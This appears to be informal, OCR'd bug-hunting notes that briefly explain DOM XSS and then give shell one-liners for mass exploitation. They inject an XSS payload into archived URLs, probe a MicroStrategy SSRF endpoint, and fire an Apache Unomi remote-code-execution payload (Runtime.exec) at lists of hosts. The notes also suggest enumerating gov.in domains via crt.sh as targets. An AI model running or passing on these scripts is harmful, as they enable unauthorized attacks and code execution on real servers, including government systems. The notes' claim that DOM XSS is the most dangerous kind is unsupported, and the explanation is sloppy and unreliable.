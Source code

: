 
is the most dangerous type of xss. 

why? beacause the req is never sent to the server.


Source - We put  a payload in source

Sink   - It comes out through the sink.

As it is, then it is vulnerable to DOM XSS. 


Identify Websites -
 
https://crt.sh/?q=gov.in


cc: submitbugs@gmail.com


Saleem new code 95 color :

waybackurls testphp.vulnweb.com | tee testphp1.txt |  qsreplace '"><script>confirm(1)</script>' | tee  combinedfuzz.json  && cat combinedfuzz.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo -e "$host \e[1;31mVulnerable\e[0m\n" || echo -e "$host \e[1;34mNot Vulnerable\e[0m\n";done













Mass Hunting :- 


while read host do ;do curl --silent --path-as-is --insecure "$host/MicroStrategy/servlet/taskProc?taskId=shortURL&taskEnv=xml&taskContentType=xml&srcURL=https://tinyurl.com" --connect-timeout 3| grep -qs "tinyurl" && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done





Unomi RCE : 13942

cat targets.txt | while read host do;do  curl --insecure --silent -X POST http://$host/context.json --header 'Content-type: application/json' --data '{"filters":[{"id":"boom ","filters":[{"condition":{"parameterValues":{"propertyName":"prop","comparisonOperator":"equals","propertyValue":"script::Runtime r=Runtime.getRuntime();r.exec('id');"},"type":"profilePropertyCondition"}}]}],"sessionId":"boom"}' | grep -qs "boom" && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done











